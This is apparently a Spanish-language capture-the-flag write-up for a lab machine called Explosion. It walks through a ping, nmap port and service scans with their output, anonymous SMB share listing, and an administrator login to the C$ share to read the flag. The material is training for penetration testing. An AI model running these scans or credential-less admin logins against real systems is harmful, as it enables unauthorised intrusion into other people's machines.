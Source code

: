 # Explosion

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.1.13

PING 10.129.1.13 (10.129.1.13) 56(84) bytes of data.
64 bytes from 10.129.1.13: icmp_seq=1 ttl=127 time=176 ms

--- 10.129.1.13 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 175.846/175.846/175.846/0.000 ms
```

> Sistema operativo: **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.1.13 -oG openPorts

PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
5985/tcp  open  wsman         syn-ack ttl 127
49664/tcp open  unknown       syn-ack ttl 127
49665/tcp open  unknown       syn-ack ttl 127
49666/tcp open  unknown       syn-ack ttl 127
49667/tcp open  unknown       syn-ack ttl 127
49668/tcp open  unknown       syn-ack ttl 127
49669/tcp open  unknown       syn-ack ttl 127
49670/tcp open  unknown       syn-ack ttl 127
49671/tcp open  unknown       syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 135,139,445,3389,5985,49664,49665,49666,49667,49668,49669,49670,49671 -sCV 10.129.1.13 -oN targeted

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-07T14:14:18+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-07T14:13:45+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2024-03-06T14:00:08
|_Not valid after:  2024-09-05T14:00:08
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  tcpwrapped
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-07T14:13:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

| Puerto | Servicio      | Versión                                 |
| ------ | ------------- | --------------------------------------- |
| 135    | msrpc         | Microsoft Windows RPC                   |
| 139    | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 445    | microsoft-ds  | ?                                       |
| 3389   | ms-wbt-server | Microsoft Terminal Services             |
| 5985   | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |
| 49664  | unknown       | ?                                       |
| 49665  | unknown       | ?                                       |
| 49666  | msrpc         | Microsoft Windows RPC                   |
| 49667  | msrpc         | Microsoft Windows RPC                   |
| 49668  | msrpc         | Microsoft Windows RPC                   |
| 49669  | unknown       | ?                                       |
| 49670  | tcpwrapped    | ?                                       |
| 49671  | msrpc         | Microsoft Windows RPC                   |

🗹 Listar servicios disponibles en el servidor sin proporcionar contraseña:

```shell
smbclient -L 10.129.1.13

Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

🗹 Conectarse al servicio SMB y obtener la flag:

```shell
smbclient //10.129.1.13/C$ -U administrator

smb: \> more \Users\Administrator\Desktop\flag.txt
```
## Flag

La flag se encuentra en el directorio `\Users\Administrator\Desktop\`.

